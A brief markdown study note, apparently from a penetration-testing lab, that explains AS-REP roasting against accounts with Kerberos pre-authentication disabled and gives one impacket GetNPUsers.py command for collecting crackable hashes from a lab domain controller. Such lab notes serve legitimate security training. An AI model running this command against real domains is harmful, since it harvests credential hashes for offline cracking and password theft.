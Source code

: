 When `pre-authentication` isn't required, we can request a TGT of any user, this TGT come with other message that contain `TGS session key` that is needed to use the TGT but this message is encrypted using user password so we need to crack this message to get the `TGS session key` and be able to use the `TGT`. 

---
### Finding AS-REPRoastable Accounts without Authentication
```
GetNPUsers.py INLANEFREIGHT/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass
```